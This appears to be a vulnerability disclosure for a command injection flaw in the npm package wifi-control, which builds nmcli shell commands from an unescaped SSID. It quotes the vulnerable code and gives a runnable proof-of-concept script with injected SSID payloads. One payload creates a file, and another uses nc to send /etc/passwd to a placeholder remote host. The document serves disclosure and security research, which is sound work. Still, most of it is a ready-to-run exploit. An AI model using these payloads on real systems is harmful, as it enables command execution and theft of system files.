

# Command Injection in wifi-control
## Basic information
Vulnerability Author: YorkLee(liyue2021@hust.edu.cn)

Vulnerable npm package: wifi-control

Npm url: https://www.npmjs.com/package/wifi-control

Github url: https://github.com/msolters/wifi-control-node

Vulnerable version: <= 2.0.1

Vulnerable file: lib/linux.js
```js
connectToAP: function(_ap) {
      var COMMANDS, _msg, com, connectToAPChain, error, error1, error2, i, len, ssidExist, stdout;
      COMMANDS = {
        "delete": "nmcli connection delete \"" + _ap.ssid + "\"",
        connect: "nmcli device wifi connect \"" + _ap.ssid + "\""
      };
      if (_ap.password.length) {
        COMMANDS.connect += " password \"" + _ap.password + "\"";
      }
      try {
        stdout = this.execSync("nmcli connection show \"" + _ap.ssid + "\"");
        if (stdout.length) {
          ssidExist = true;
        }
      } catch (error1) {
        error = error1;
        ssidExist = false;
      }
      ...
}
```
The vulnerability is in lib/linux.js, line 170. _ap.ssid is not checked.

## Payload
main.js:
```js
const WiFiControl = require('wifi-control');
const iface = WiFiControl.findInterface();
WiFiControl.connectToAP(
  {
    ssid: '" || touch hack.txt && "',
    password: "mypassword",
  },
  (err, res) => {
    console.log(res);
  }
);

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Payload located in ssid can execute almost all commands.
## Exploit
Environment: Ubuntu

Attention: ensure that your wireless network device name contains "wlan".



You just run following commands to exploit:
```
npm i
npm start
```